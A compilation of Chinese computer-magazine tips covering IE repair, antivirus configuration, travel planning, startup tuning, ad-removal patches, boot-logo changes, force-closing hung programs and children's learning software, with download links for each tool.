刚搬进新房的小王周末在家摆乔迁宴，书房和电脑被客人带来的孩子们占领了。晚上客人散尽，小王像往常一样打开IE浏览器，却发现它自动连接到一个莫名其妙的网站去了，收藏夹里也多了一些奇怪的网址……相信不少用户也遇到过与之类似的奇怪事情。现在如何拯救呢？

# 第一步：修复IE配置

运行超级兔子，单击“立即检测”，然后在“IE修复，检测危险程序”中看到IE哪些被修改了，单击“查看并修复”，自动启动IE守护天使，在“选择修复项目”中，已经默认勾选了软件检测到的IE被修改的部分，当然，如果还有一些不确定的，也可以自己添加上恢复默认设置，单击“修复”。被小孩子乱弄引发的IE修改就都恢复了。

# 第二步：清理收藏夹

经过前面的设置，IE的配置修复了，可乱七八糟的收藏夹还没清理。回到超级兔子的“工具”选项下，启动“超级兔子魔法设置”，切换到“收藏夹”下，在下面的列表中勾选那些不需要的收藏夹网址，单击“应用”就完成了清理。

# 小提示：

切换到“超级兔子魔法设置”的“网络”选项卡下可以对IE进行更细致地管理，在“常规设置”选项下可以看到IE的相关项，查看“IE下载地址、IE标题”是否被修改，在“IE选项及按钮”中，可以禁止IE的不需要功能。

# 第三步：提升安全性能

IE恢复了，不过这些还是让你不安心，会不会染上网页木马呢？那就进行再次提升，依次打开“超级兔子 → 工具 → IE守护天使 → 综合设置”，在“广告拦截设置”里面，勾选拦截的广告类型（见图）。如果你在上网时不想看任何网络广告，还可以勾选“拦截动画广告”、“拦截Flash”、“拦截IE右键自定义广告图片”等。而在“网页安全设置”里面，系统默认勾选全部三个选项，可以保护用户不被恶意程序攻击。

# 速填助手，让填写在瞬间完成

上网时经常要填写各类用户名、邮箱等许多重复的信息，对于这些重复输入的信息，能不能用一款软件来实现快速输入呢？“速填助手”（下载地址：http://www.onlinedown.net/soft/979.htm）可以做到。

# 个人信息速填

录入文稿或书写信件时，一般都要输入冗长的地址等个人信息，可以在“数据编辑”中实现一键输入。单击选中“数据编辑”选项，单击“新增记录”按钮，在标题中输入“地址”，在内容中输入地址的详细内容，然后单击“保存”按钮。如何进行快速填写呢？单击“填表助手”选项，再单击“拖动快填”按钮，按住“速填助手”中的“地址”，拖入到文档编辑窗口的某个位置松开鼠标，即可自动填入详细地址。



网页表单速填

这里以输入163邮箱名称为例：打开163网页邮箱时，总要输入邮箱用户名，我们可以通过右键菜单实现一键输入。单击选中“IE右键菜单填表”，单击“新增”按钮，在“IE右键菜单”中输入一个标题，“填写内容”中输入自己的163信箱用户名，然后单击“应用”。以后打开163邮箱页面后，只要在“用户名窗口”中右击鼠标，从右键菜单中选取标题，即可自动填入163邮箱用户名了。通过这种方法，你完全可以把各个论坛的用户名，甚至密码添加到速填助手手中，以达到快速填写的目的。

(江苏/曹春华)

# 瑞星2010巧做媒 系统安全大增强

随着瑞星2010版测试的进行，我们也在前几期介绍了瑞星全功能安全软件2010版的一些强大功能：功能强大的“防挂马”、独有的“应用程序保护”以及能将未知病毒扼杀的“木马行为防御”。面对越来越复杂的互联网安全形势，我们要做到不让电脑受伤，还有一些其他的工作要做，下面我们就来看看如何巧用瑞星2010来增强系统免疫力。

# 优化“系统加固”抵御常见威胁

木马病毒和很多恶意软件都会对系统进行破坏，将系统修改得面目全非。病毒很难通过瑞星的防线，但对于那些不“规矩”的免费软件，有时候很让人头疼。修改IE、添加启动项、开机自动弹出网页等。对于这些行为，我们利用“系统加固”的一些设置就可以将其拦截。

- 第一步：打开瑞星全功能安全软件2010，点击上方“防御”选项，选择左侧的“智能主动防御→系统加固→设置→自定义级别”。点击左侧的“系统注册表保护”，在IE配置中选中“所有项目”，并在下方选择希望执行的操作“自动拒绝”、“放过”或是“提示”（见图）。
- 第二步：在Windows启动中选中“服务”、“当前用户及电脑自动运行项（RUNONCE）”和“RUNONCEEX”。很多恶意软件都会按照服务或者系统下次重启后完成其安装，这时往往在runonce键值中写下自己的操作。
- 第三步：在左侧选择“系统文件保护”，在“系统关键目录”中勾选全部选项。多数病毒或恶意软件都会替换或感染系统文件，这样设置后，就可以将未知病毒或恶意软件的破坏行为瓦解。

# 监控变启发 防御也智能

传统的文件监控主要目的是在病毒感染后，在进行复制或执行时，将病毒拦截、清除。但对于未知病毒，如果通过了瑞星所有的其他防线时，瑞星2010版可以将传统监控升级为具有“启发式扫描”功能的监控。这样一来，只要这个文件属于病毒范畴，那么瑞星2010就可以将其发现。因为，启发式扫描技术针对的对象就是所有病毒。

- 第一步：打开瑞星全功能安全软件2010，点击上方“防御”选项，选择左侧的“实时监控→文件监控→设置→自定义级别”。
- 第二步：选中“自定义级别”中的所有选项后，在下方选择“启发扫描”，将级别调制“高级”。同样的设置方法也可以应用于“邮件监控”。



通过这样的设置，我们就将具有强大的系统保护能力，以及对传统的“文件监控”与“邮件监控”功能进行升级。大家可以按照介绍的方法实际操作一下，下期，我们将对瑞星全功能安全软件2010的其他功能介绍优化的方法。

(瑞星安全工程师/唐威)

# 电脑、手机齐上阵 国庆旅游巧准备

8天，史上最长的国庆长假，这个期待已久的“超级黄金周”勾起了家住北京的阿紫出游的热情，目的地是“碧海连天远，琼崖尽是春”的海南三亚……

# 搜集攻略 样样精通

尽管对三亚心仪已久，但是又对其知之甚少。下定了出游的决心，阿紫可不想漫无目的，四处瞎逛。外出旅游无非行、住、吃、游、娱、购，让搜比网给自己一些建议吧。

- 第一步：登录搜比网（http://www.soobb.com/），点击上方菜单栏的“目的地”，输入“三亚”，点击“搜比搜索”按钮。在搜索结果页面中，左侧提供了“行、住、吃、游、娱、购”等方面的信息。
- 第二步：只看不行怎么行呢？阿紫想到了网博士（下载地址：http://www.onlinedown.net/soft/23881.htm），安装后运行，依次单击“文件→书籍→新建书籍”，输入书籍名，例如：三亚，在网博士建立一个供保存的目录。
- 第三步：点开“游在三亚、娱在三亚、购在三亚”，小紫看到很多去过三亚的人写的游记，其中不乏经验价值很高的文字，看到需要的，直接选中拖动到网博士的悬浮工具框上，软件会提示我们选择保存位置，选择刚才建立的书籍名（三亚）就好了。

火速链接：
网博士的其他用法指导可参考2009年第3期杂志《网络资料收集也有“七年之痒”》一文。

# 价格比较 有理有据

看了几天的旅游攻略，阿紫是越来越想去三亚了，赶紧付诸行动吧！阿紫接下来要面对的就是选择日程、旅行团或是自助游了。

第一步：阿紫首先进入到旅游频道价格比较网（http://travel.jiage.cc/），在“线路”一项的“出发城市”和“目的城市”文本框中分别输入“北京”和“三亚”，在“行程天数”下拉列表中选择一下欲出游的天数，例如4-6天，价格先不管。
第二步：点击“开始搜索”按钮，在搜索结果页面中就列出了各个旅游团三亚各条旅游线路的报价。如果觉得哪个旅游线路比较中意，点击“加入比较”按钮加入比较行列，点击最右侧的“线路比较”按钮即可打开新的页面，在表格中对比各条线路的优劣了。看到合适的，那就单击上面的线路名称，进入该页面，右上方就是电话，给旅行社打电话吧！

小提示：
★对于跨地区的旅游来说，几乎绝大多数的旅行团都是采取两地合作的方式，你在当地报团后，当地只负责送机，其余的由他们的合作方——旅游目的地的旅行社负责。这样的团一般便宜一些，不过要选择信誉好的旅行社，这样才有保证。另外，与旅行社签约时，一定要将约定的内容写入合同条款，并在最后索要正规发票。
★如果想进行自助游，可以登录酷讯网（http://www.kuxun.cn/）查询特价机票，酷讯网的特价数据更新较快，发现好的机票要及时打电话确认是否有票，而且要确认对方机票的有效性，不推荐大家使用信用卡支付，因为信用卡支付提供的信息，一旦被人利用，完全可以冒名购物。

# 劳动成果 随身携带

阿紫折腾半天，一切搞定了，阿紫开始武装自己的装备了。电脑无疑是最方便的助手了，不过外出旅游，这个家伙就不方便了，其次就是随身携带的手机了。外出旅游，上网查东西或者打个重要电话都是很有可能发生的，那么我们首先要做的就是给手机充足够钱，并且开通漫游套餐和上网套餐（开通套餐要便宜好多哦，具体咨询当地手机业务提供商）。然后呢，我们进行进一步的“武装”。

- 第一步：前面我们搜集了很多资料，这些东西在电脑上倒是看得很自在，可真到当地，查询起来就不方便了。小紫想到了手边的手机，把东西都放在这里面吧！打开网博士，在我的书籍选择“三亚”，然后选择“导出到文件夹”命令，在“导出选项”中选择“导出时转换网页文件为：文本文件”，设置一个保存位置后，然后单击“确定”按钮，完成TXT格式文档的导出工作。
- 第二步：现在要放到手机上阅读，并且达到图文并茂，就要再处理一下了。启动百阅手机文档制作工具（下载地址：http://work.newhua.com/cfan/200918/byzz.rar），双击列表中的“未命名”，改为“三亚”，单击菜单栏第一个按钮，新建一个章节，然后依次单击“插入→文本”，然后导入刚才导出的三亚文本，再单击“插入→图像”，随意插入有用的图片，例如旅游地图等，制作完成，最后单击“生成”，保存为百阅电子书（包含BRM、XML和图片文件）。
- 第三步：登录http://www.byread.com/player/player.htm，根据手机型号下载匹配的百阅客户端，安装到手机上，然后将上一步生成的电子书复制到手机里，就可以看到有图有文的旅游攻略。

小提示：
网博士也可以到处为CHM格式的电子书，对于手机支持CHM格式的来说，就可以直接看了。启动时如果发现你手机匹配的是JAVA版本，那就不支持BRM文件了，这时我们就要下载anyview（下载地址：http://work.newhua.com/cfan/200918/anyview.rar）在手机阅读CHM格式文件了。

# 旅途漫漫 贮备消遣

其他事情都准备好了，现在阿紫要让自己的旅游计划变得更有意思一点，搜集笑话、视频、电子书一体化整理放进你的MP4。

- 第一步：将MP4连接到电脑上，运行抓抓掌中影音伴侣（http://www.newhua.com/soft/49521.htm），首先根据自己的移动设备型号选择好适用设备，单击主界面上的“小说”，就进入小说频道了，选中感兴趣的，单击“下载到本地→下一步→复制到设备”，小说就自动复制进MP4了。
- 第二步：小说已经不过瘾了，玩视频才是王道，在主界面单击“视频→播客视频下载器”，然后在浏览窗口中搜索“喜剧”或其他感兴趣的影片，播放时注意右下角抓抓的提示，单击“下载”，完成后单击“打开视频管理器”，选中视频，单击“导入到→开始转码→确定→下一步→传输”，视频就转换成适合自己设备的视频。如此丰富的东西加入进来，旅途就不会再寂寞了。

小提示：
对于电脑已经有的视频，可以在抓抓的主界面，单击“电脑文件管理→视频管理”，单击“添加”将喜欢的视频添加进来，再进行导入就可以了，方法和下载后的一样。另外，在抓抓里还有很多适合自己设备的游戏和图片，也可以方便地下载下来导入。

# 旅游小提示

1. 必备的物品
旅游呢去某一个地方，一定要把必备的物品配齐。可以在网上找到其他人的建议，列个清单去超市选购，另外还要注意所带物品不要与机场安检有冲突，例如洗发露不可带大瓶的，辣椒酱之类的瓶装物品不能带上飞机。
2. 相机的保护
相机要注意防水和防沙，用完就装进口袋，有挂绳的一定要注意把挂绳套在手腕上。
3. 当地交流、购物
去当地购物，除非认识的朋友，千万不要相信任何人的指引，连出租车司机都有可能和饭馆做商业合作，出发前多上网看看大家对当地的风俗的介绍。
4. 旅游法规
如果是跟团旅游，一定注意合同的条款，如果指明无购物团，那就不能强制购物或去合同上没有规定的线路，发现违规，可以向消协投诉。

## 无毒启动谁最棒 超级兔子帮你忙

安装超级兔子V9.0正式版已经好几天了，很是感慨现在的软件推出速度，先用户之先把众多功能囊括其中，电脑越来越容易地帮助使用者解决问题。最近笔者的电脑启动速度越来越慢，看来是时候用超级兔子来解决问题了。

## 启动要加速

第一步：依次点击“超级兔子→工具→魔法设置→启动程序”，就可以进入到管理启动程序的页面了。看着密密麻麻的程序，里面竟然还有貌似病毒的项目，原来这些就是笔者电脑启动慢的罪魁祸首。在“启动程序→自动运行”里，全部取消掉把不必要的启动程序前面的勾，只保留开机要执行的程序和自己喜欢的绿色软件，像是病毒的项目名称、网络电视的开始程序全部取消，点击应用。

第二步：点击“启动程序→系统服务”，这里可以减少系统服务让系统更顺畅，但一定要小心使用，系统本身需要的服务绝对不要停止，否则会导致故障。笔者推荐使用“系统服务→自定义→标准个人电脑优化”方案。如果喜欢玩游戏可选择“系统服务→自定义→单机游戏”，还有建网、最大性能等多种方案供选择。如果对自己的技术有信心，也可以在想要选择的项目上点击鼠标右键，启用或禁用某一个具体的服务。这样一来，启动速度就会快很多了。

小提示：在这里鼠标右键可以很方便地使用，在某项目名称上点击鼠标右键，即可直接选择允许使用、取消启动、运行程序、删除项目，也可新建或编辑项目。

## 启动要调整

笔者电脑安装的是双系统，开机的时候有两个系统供选择，选择“启动程序→XP多系统选择”，这里可以修改默认选中的系统，包括WinXP自动出现启动菜单和等待时间，WinXP自动检测硬盘等待时间，默认的时间是30，可修改成任意合适时间，点击“确定”，完成。遇到自己喜欢的绿色软件，是不是也想把它加入到自启动中呢？进入上面介绍过的“魔法设置→启动程序”中，在启动项目里，右键单击，选择“新建项目”，然后输入名称并找到软件的EXE文件路径，单击“确定”即可添加成功。

说了这么多，各位看官是不是对电脑的启动程序有了一些了解，别等了，赶快去尝试下，让自己的电脑启动速度加快吧！

## 我的世界没有广告

生活中广告无处不在，电脑中也一样，尤其是不断闪动的Flash广告，看到它们就有一种想要删掉它们的冲动。方法多样，今天我带给你高效工具包（下载地址：http://work.newhua.com/cfan/200918/ggbd.rar）来解决这些问题。

## 实例1：去除PPStream的广告

打开工具包中的PPStream Kill.AD，运行补丁后，补丁会自动查找PPSteam的安装位置。除了去除广告以外，补丁还提供“删除残余广告文件”、“去除PP加速器”、“关闭自动更新”等功能，勾选所需的功能，单击“执行”，界面一下就变得清爽了不少。

## 实例2：去除阿里旺旺的广告

打开工具包中的AliWangWang Kill.AD，运行补丁之后，将“每日焦点”、“图片广告”和“文字广告”都选择为“禁用”，点击“执行”。讨厌的广告又消失了。虽然现在阿里旺旺的名称为“阿里旺旺2009”，但版本号依然为6.x，所以补丁界面依然显示“阿里旺旺2008一键去广告补丁”。

## 实例3：去除MSN的广告

打开工具包中的WLM2009 Kill.AD，运行补丁，这个补丁的扩展功能只有对振屏效果的设置，直接点击执行，去除广告即可。如果你对MSNShell提供的众多功能不感兴趣，仅仅想要去掉广告，那么WLM2009 Kill.AD是一个不错的选择。

（文/林锐）

## 新版尝鲜 博王争霸（优秀博文精选）

活动开始半月了，随着ESET NOD32 4.0免费试用版的公布（CFAN读者版：http://work.newhua.com/cfan/200917/eset4.rar），大家试用4.0版的热情逐步升温，很多优秀博文吸引着小编的眼球，由于篇幅有限，小编精简了其中的优秀部分，刊登出来，在学习心得的同时，也提醒大家赶快参与哦！活动地址：http://school.cfan.com.cn/zhuanti/eset4/

## 防火墙开始爱“学习”

ESET NOD32 4.0今天也用上了，一开始没觉得有什么，仔细对比，发现好多好东西哇！

它的防火墙有了新的改进，以前都是按照软件的自动模式或借用他人设置方案，那不一定真正适合自己，像对某些网站或软件的限制等。但在新版中拥有学习模式，会根据我们的平时习惯来自行学习。完成最适合你的设置。先进入高级模式中的更多设置，在“设置”窗口左栏选择“个人防火墙”，再在右栏“过滤模式”下选择“学习模式”，在左栏再选择“学习模式”，再在右栏“通信类型”栏中选择不同的需要项，并在下面的“规则创建策略”中完成设置，一般情况下咱们选择其默认的设置即可。这样就更加智能了！

博客地址：http://blog.cfan.com.cn/index.php/924767/

稿费：40元

## 看看ESET NOD32的自我保护

NOD32第四版在自我保护上大大加强，像它的核心进程“ekern.exe”采用常规结束方法（任务管理器）和强力结束方法（APT的所有kill功能），都不能将它关闭。另外还可以设置密码来对设置或卸载进行保护。

按前面的方法进入“设置”窗口，在左栏“用户界面”下选择“访问保护”，再在右栏勾选“密码保护”，并单击“设置密码”来设置好密码。设置成功后，除了在修改配置要设置密码外，在通过系统的“添加或删除程序”来卸载它时，也会要求键入密码才能进行。

博客地址：http://blog.cfan.com.cn/index.php/1083704/

稿费50元

小提示：第四版还提供了一个“自我保护”开关，允许其在特定情况下手动关闭保护机制。对于Vista用户来说，还可勾选“需要管理员权限(系统需UAC支持)”，NOD32便会自动为运行于非管理员模式的用户赋予权限，这样便可避免频繁输入管理密码的烦恼了。

“新版尝鲜 博王争霸赛”正在进行中，大家可以到http://work.newhua.com/cfan/200917/eset4.rar下载CFAN读者专用的免费试用版（45天），将你的使用心得写出来，发在博客上，就有可能获奖哦！稿费加奖品，诱惑大重重！

活动地址：http://school.cfan.com.cn/zhuanti/eset4

## 儿子和老婆哪个更可爱？靓照展示大PK

小李和老王是办公室的两大神人，小李刚谈恋爱，把女朋友照片贴得到处是，老王刚有宝宝，儿子照片也是时时都看，这不，俩人开始比赛了，看看儿子和老婆哪个更可爱！

## 实例1 老王宝宝大幅展示

老王最为得意的创意是将宝宝的照片设置成Windows登录画面，每次一开机，就看到宝宝甜甜的微笑，心里那个美呀，工作起来别提有多精神了。怎么做的呢？

第一步：开机Logo的图片必须是16色，640×480，BMP格式的图片文件。因此，老王首先用画图程序将宝宝的照片转换到这一格式，并重命名为boot.bmp，存放于C:\windows目录下。

第二步：进入到C盘根目录下，去掉boot.ini文件的只读属性（如果找不到该文件，那么则进入文件夹选项窗口勾选显示隐藏文件和系统文件即可）。用记事本程序打开boot.ini，在启动菜单选项后加上参数/bootlogo /noguibo，形成如下的启动选项：

```
multi(0)disk(0)rdisk(0)partition(1)\WINDOWS="Microsoft Windows XP Professional" /fastdetect /bootlogo /noguibo
```

最后，重新启动计算机，即可看到效果。

小提示：除了上面的方法，还可以利用系统登录界面修改器（下载地址：http://work.newhua.com/cfan/200917/jmxg.rar）来设置。首先按上述方法将宝宝照片转换成BMP图片，然后启动程序，点击“更改登录背景”后面的“选择”按钮，打开此前准备好的BMP图片，然后点击“执行更改”按钮即可。

## 实例2 桌面也是数码相框

老王桌上的数码相框被老婆要走了，于是就把电脑桌面当成了展示自己宝宝的“数码相框”！

下载安装微软的桌面壁纸自动换工具（下载地址：http://www.onlinedown.net/soft/79638.htm），在桌面上右键单击选择“属性”，点击“壁纸自动换”标签，然后勾选“开启桌面壁纸自动换”复选框，点击“浏览”按钮指向宝宝照片所在的文件夹，最后将更换的频率设置成1分钟即可。

小提示：使用Vista操作系统的朋友，则需要借助于Vista Boot Logo Generator（下载地址：http://www.onlinedown.net/soft/62792.htm）来实现。

## 实例3 小李女友无所不在

小李呢，不似老王那么张扬，自家的媳妇为啥要让别人看到？小李利用的是桌面置顶AHK Screen WaterMark（下载地址：http://work.newhua.com/cfan/200917/zmzr.rar）。

下载完毕解压到任意目录，然后将MM的图片拖放到AHKScreenWaterMark.exe上面松开即可。这样，MM的照片即显示到屏幕上，用鼠标拖动调整一下位置。AHK Screen WaterMark会自动记住最后一次运行的图片的路径和屏幕位置，现在就可以边工作边与MM抛媚眼了。

（辽宁/乔珊）

## 我是一个会用老板键的好员工

小张非常喜欢上开心网，当老板来视察时，最好是能根据关键字把部分窗口隐藏，把其他的窗口留下。老张将“大拿万能老板键”（下载地址：http://work.newhua.com/cfan/200918/dnlbj.rar）推荐给了小张。

老张将“大拿万能老板键”打开，在“设置”页面中的“关联方式”里选择“每次按下老板键时即时查找标题中包含关键字的窗口”然后点击确定，回到程序界面，在文本框中输入“开心网”，点击关联。按Ctrl+Shift+Z隐藏老板键程序，平时老张想玩开心网就随便玩，老板一来，直接按Ctrl+Shift+A，窗口名称中包含“开心网”的所有页面都关了，连他开的开心农场的外挂也隐藏了，而其他的工作网页还在呢，从此小张更加迷恋开心网了……

**小提示：**
软件搜索的是窗口标题，如果是多标签的浏览器窗口，只会关联其中正在显示的窗口，“关联方式”中的选项“根据标题关联窗口，控制显示隐藏”指的是对已经打开的窗口进行关联，而关联之后新打开的窗口不会被隐藏。
(文/林锐)

## 窗口假死 我来枪毙你

对于稍有一点电脑使用年龄的朋友来说，一定会遇到过软件窗口关闭不了，或者是运行程序长时间都不见现身的情况，此时很多原因就是软件故障造成系统假死而引起的，要解决这个问题，最直接有效的方法就是将出问题的软件拉出来枪毙掉。

利用鼠标左击目标窗口，便可强制关闭掉停止响应的窗口。而完成操作后利用鼠标右击即可以使鼠标指针恢复到正常状态再进行正常操作。对于希望在系统启动时就自动运行SuperF4的朋友来说，可以在系统托盘SuperF4图标上单击鼠标右键，进入“自动启动”后单击其下的“自动启动”项即可。并且在系统运行中只需在该图标上单击左键便可暂时关闭SuperF4的使用，而需启用时再在其上单击左键即可。

## 轻症下药，有请超级 F4 出马

有过一点功力的电脑用户都知道采用Alt+F4可以关闭程序，但有时候电脑出现卡死情况，按这两个键也不能将停止反应的窗口关掉，此时如果启用了SuperF4（下载地址：http://work.newhua.com/cfan/200917/cjF4.zip），一切就来得很简单，我们可以通过两种方法来快速解决。

1.  **加强快捷键组合法**
    软件窗口停止响应时，在启用了SuperF4的前提下，只需按下快捷键Ctrl+Alt+F4三键，便可强制关掉当前的窗口。
2.  **骷髅点击法**
    如果停止响应的窗口不是系统当前窗口，那么可以按下快捷组合键Win+F4，此时鼠标的指针会变成一个骷髅头，将该骷髅头移到停止响应的窗口上，再利用鼠标左击目标窗口，便可强制关闭掉停止响应的窗口。

## 重病关线程，还是 IceSword

程序假死在很多时候都会造成按键无响应，此时咱们得对症下药，请出利刃——IceSword（下载地址：http://work.newhua.com/cfan/200917/br.rar）。

进入IceSword后，在功能栏单击“进程”图标，此时便可在右栏中看到所有在运行之中的进程。如笔者在一次启用Word打开一个大文档时引起了假死，此时可在右栏中选中停止响应了的Word进程，再在其上单击鼠标右键，从弹出菜单选择“结束进程”，便可快速地将停止反应的Word窗口关掉，而让整个系统恢复出健康的活力来。
(湖南/笑笑先生)

## 喜羊羊做辅导 孩子吵着要学习

俗话说：“兴趣是最好的老师”，对于小学生来说，要提高他们的学习兴趣，可不是一件容易的事，你有没有想过发挥电脑的优点来提高他们的学习积极性呢？

## 教你做竖式计算题

小学生刚开始接触竖式计算是比较难的，电脑这么聪明，让它教呗！
运行“Sanchan”（下载地址：http://work.newhua.com/cfan/200919/ssjs.rar），利用数字键盘输入数学表达式，然后按回车键，竖式立即展示出来，对于加、乘、减法，还可以显示计算的进、退位，单击“条件设定”，弹出新窗口，勾选其中的一项，单击“决定”，鼠标双击竖式区域，即可显示。按键盘上的Delete键，可以清除算式。依次单击“黑板→印刷”，还可以把算式打印出来。

## 喜羊羊与灰太狼的较量

一部《喜羊羊与灰太狼》的连续剧不知迷倒了多少儿童，和它们一道计算数学题，小朋友们一定会感到新鲜。“喜羊羊与灰太狼大战数学题”（下载地址：http://work.newhua.com/cfan/200919/xyy.rar）这款软件，正迎合了儿童的心理特点。
软件运行后，那熟悉的喜羊羊、灰太狼和羊村长便出现在我们面前。首先单击“设置”，选择计算的类型和难度，计算类型为加法与减法，难度为计算的位数，应根据学习的进度进行安排，设置完成后单击“确定”，回到比赛现场。
羊村长出题，喜羊羊通过鼠标单击下方的数字输入答案，确定后单击“举手”标志，如果是正确的答案，那鬼头鬼脑的灰太狼倒霉了，重重地当头一棒！如果答错，灰太狼的笑声可不好听哟。

## 和可爱的动物一起学拼音

教学拼音是难点，这一点谁都承认，难的原因是拼音太抽象，如果能联系日常生活中的一些有趣的实例，再加上可爱的动物一起伴读，那效果可能就不一样了，运行“汉语拼音学习软件”（下载地址：http://work.newhua.com/cfan/200919/pyxx.rar）这款软件值得一试。鼠标移至左右两侧，弹出教学内容进行选择，学习拼音可通过听、说、写、练几个试方面进行，还可以通过左侧课程中的鼻韵母儿歌、单韵母儿歌、拼音游戏等来学习拼音。

## 象形识字，学习汉字的突破

汉字属象形文字，认识汉字从象形入手，自然会印象深刻，运行“快乐想象识字法”（下载地址：http://www.newhua.com/soft/361.htm），选择组别中的某个汉字即开始进行教学，除了讲解汉字的来源外，还通过汉字的变形、复原来了解汉字的形成过程，这是该软件的最大特色。有一点遗憾的是，该软件提供的汉字较少，购买官方正式版的话，可以学习3300个生字动画！
(江苏/曹春华)

## 自己动手 丰衣足食 自制小红伞V9免安装扫毒器

现如今有很多的伞迷（指热衷于使用德国免费且强悍的防病毒软件小红伞Avira的用户），只想要用德国小红伞的扫毒功能，又不想安装（怕与其他杀毒软件冲突），在网上又很难找到免安装版的，怎么办？好办，自己动手DIY一个免安装的扫毒器即可！

第一步：下载小红伞汉化版（下载地址：http://www.skycn.com/soft/52012.html），将其解压到一个文件夹，然后在AntiVirClassic8_yueCHS.exe上单击右键，选择解压命令。
第二步：解压后进入到解压文件夹，可以看到其中有一个名为basic的文件夹，将该文件夹下的所有文件剪贴到与basic文件夹同一层中，至此，小红伞Avira AntiVir 9扫毒器即告完成！以后要使用小红伞时，只需双击执行basic文件夹中的可执行文件avcenter.exe即可。
第三步：接下来要解决的就是病毒库的升级，因为通过上面方法制作的免安装扫毒器无法使用病毒库的自动更新功能，我们可以手动更新：首先到官方主页（http://www.avira.com）下载更新包（如：http://dl.avir.de/down/vdf/ivdf_fusebundle_nt_en.zip），接下来，执行avcenter.exe进入主界面，选择菜单“更新→Manual Update”，然后选择我们刚才下载的病毒码更新包即可。

**小提示：**
如果发现avcenter.exe不能执行，那就安装里面的vcredist_x86.exe就可以了。
(文/金色铁锚)

## YY语音 大家一起聊

在浩方上玩魔兽争霸，相互间的交流必不可少，在游戏里通过打字沟通会严重影响操作，别着急，这时候嘴还闲着呢，手没工夫打字，那就拿嘴说吧。QQ语音无论是支持人数，还是资源占用都难以担当此任，我们只好另谋出路。歪歪语音默认支持500人语音群聊以及极低的资源占用，这就为我们提供了一个非常好的选择。

第一步：运行歪歪语音（下载地址：http://www.newhua.com/soft/74678.htm）之后登录（如果没有账号，点击“注册歪歪语音账号”免费注册）。点击“创建频道”，输入频道名称，根据参与者的网络情况选择“网通频道”或者“电信频道”，然后点击“确定”。
第二步：在频道中选择“自由模式”，并切换到“自由说话”模式。然后将频道ID告诉好友，让好友来加入。好友登录歪歪语音后，点击“查找”，输入频道ID，进入频道，自己也要切换到“自由说话”模式，这样大家就可以尽情地“歪歪”了，赶快开始享受游戏的乐趣吧。

## 加密压缩包 照查不误

病毒扫描，一般不是常常做的事情，扫描一次，就要扫描彻底，不过很多杀毒软件都不支持受密码保护的压缩文件，从网上下载的一些资料也不乏带密码的压缩包，如何让扫描不留死角呢？

如果你用的是卡巴斯基，那就可以了。启动软件，单击右上角的“设置”按钮，在默认打开的“保护”一栏中的“交互式保护”中取消对“自动选择操作”的勾选。然后单击“扫描”一项中的“全面扫描”，在右侧“安全级别”下单击“设置”按钮，在弹出对话框中勾选“扫描受密码保护的压缩包”，最后单击“确定”。这样，卡巴病毒扫描就不会放过任何一个文件了，遇到加密的压缩包，会弹出窗口，让你输入密码然后进行扫描的。
(上海/王鹏)

## 新版尝鲜 博王争霸（优秀博文精选）

活动开始半月了，随着ESET NOD32 4.0免费试用版的公布(CFAN读者版：http://work.newhua.com/cfan/200917/eset4.rar)，大家试用4.0版的热情逐步升温，很多优秀博文吸引着小编的眼球。由于篇幅有限，小编精简了其中的优秀部分，刊登出来，在学习心得的同时，也提醒大家赶快参与哦！活动地址：http://school.cfan.com.cn/zhuanti/eset4/

## 深度分析你的系统

原本是独立存在的小工具)，在ESET NOD32程序组中找到并运行ESET SysInspector，稍等一会，ESET SysInspector开始深入分析用户的操作系统的各方面，检查完之后将会以更直观的界面表现出来。
我们以进程项目为例说明一下(其他各项用法也差不多)它的具体用法，总结起来，ESET SysInspector可以深入分析用户的操作系统的各方面，包含正在运行的进程、网络连接、重要的注册表项目、服务、驱动、关键文件等，可以帮助用户全面了解系统安全状况！还可以通过将生成的报告发送给技术支持人员进行分析。

博客地址：http://blog.cfan.com.cn/index.php/1091080/
小编物语：
冰冰s的博客写得很认真，他还对ESET NOD32的自由占用和自我保护做了测试，通过测试，ESET NOD32占用的内存和虚拟内存几乎一样多，都是50MB左右，即使是在进行全盘扫描时，也保持在60MB左右。

## 准备电脑抽奖别发愁

小王是一家公司企划部门的负责人，又快到年底了，公司年终晚会的筹备工作又要准备开始了。去年晚会抽奖采用的是将所有员工名片放到抽奖箱中由嘉宾抽取的方式，但本应每人只有一张名片的抽奖箱，一位员工却被连续抽中两次，此事在员工中造成了不良影响，小王还被扣除了一月的奖金。为了避免类似做假事件的发生，小王决定使用电脑抽奖，经过寻找，找到了“好运来电脑抽奖软件”(下载地址：http://www.newhua.com/soft/50265.htm)。

第一步：打开好运来电脑抽奖软件。在界面的空白处点击鼠标右键，选择“抽奖设置”，在标题中输入“年终晚会幸运抽奖”。
第二步：创建数据库。小王找来了一份全体员工的通讯录，抽奖所需的只是员工的姓名和手机号，所以直接把多余的列删除即可，最后将文档另存为CSV格式的文件。回到抽奖软件的“抽奖设置”，在“指定数据库文件位置”中添加刚刚保存的CSV格式的文件。点击“下一步”。
第三步：输入奖项设置。按照要求在“一等奖”和“二等奖”后面的“中奖人必须在现场”打钩，然后点击“完成”。然后就可以抽奖了。重新启动软件后，按空格键开始抽奖，再按一下停止。如果出现被抽中的员工不在现场，只需点击鼠标右键，选择“本次抽奖作废重抽”就可以重新进行下一次抽奖了。抽奖完成后，退出时会提示保存抽奖结果。
为了追求效果，最好给界面做一次美容。打开软件安装目录下的\Buttons\simple文件夹，把所需的背景图片拷到这个文件夹中，并打开style.ini，将BackPic=后的部分改为背景图片的文件名，将viewluck=2改为viewluck=1，然后保存退出。回到抽奖界面，按住Ctrl调整标题、奖项等文本框的位置，按住Alt则可调整文本框的大小。在文本框区域点击鼠标右键，选择“字体及颜色设定”，选择最美观的设置。最后一定不要忘记保存设置，在任意区域点击鼠标右键，选择“保存当前显示位置”。
抽奖软件准备好了，就等晚会上抽奖了。

**小提示：**
在软件界面按F1键可以打开帮助，在Skin扩充介绍中有详细的界面设置代码的含义解释，如果您是一个完美主义者，不妨尝试一下手动修改。
在设置界面的时候，一定要按照最终投影仪的分辨率进行设置，软件并不支持不同分辨率之间的等比缩放。

**请设置各个奖项的参数**

奖项名称可以随意定义，比如：特等奖、英才奖、最佳服务明星等。系统默认从奖项八开始依次往奖项一抽取，即抽取奖项八了才抽取奖项七……最后抽取奖项一。
如果您不抽取某个奖项，将其所有相关的参数全部置空即可。
奖品名如果留空，则不显示奖品名；中奖名额设置该项的中奖名额；抽奖次数是设置该奖项分几次抽取。注意：中奖名额一定要能够被抽奖次数整除！
